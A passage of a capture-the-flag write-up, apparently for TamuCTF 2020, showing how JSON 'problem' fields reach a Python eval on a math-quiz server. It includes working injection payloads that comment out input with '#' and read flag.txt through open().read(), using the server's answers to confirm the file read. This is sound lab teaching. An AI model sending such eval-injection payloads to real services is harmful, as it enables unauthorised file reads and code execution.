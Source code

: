 Playing with the payload we can observe that if we pass

```json
{
    "problem" : "1+1 # Random alphanumeric string",
    "answer" : "2"
}
```

we get no error, as if the **#** symbol is interpreted as a comment.
Digging further we can discover that there is an endpoint to /admin which gives us the classic Django admin login page, which lets us think we are in front of some sort of web application hosted by flask in this case.
![djangologin](/assets/img/TamuCTF_2020/mentalmath_1.png)

Lets try to break it. Whith a payload like below we get an 500 Server Error. Hmm, seems like the server is naively **eval**uating our input :

```json
{
    "problem" : "1 + abc",
    "answer" : "2"
}
```

What happens if we try to read the flag using python code ?

```json
{
    "problem" : "open('flag.txt','r').read()#",
    "answer" : "1",
}
```

```json
{"correct": true, "problem": "29 * 53"}
```

We get a correct answer, interesting. Lets ensure we are reading the flag by trying to read a random non existent file

```json
{
    "problem" : "open('flag123.txt','r').read()#",
    "answer" : "1",
}
```

With this payload the server responds with an 500, as expected.
From this point on there are several solutions.
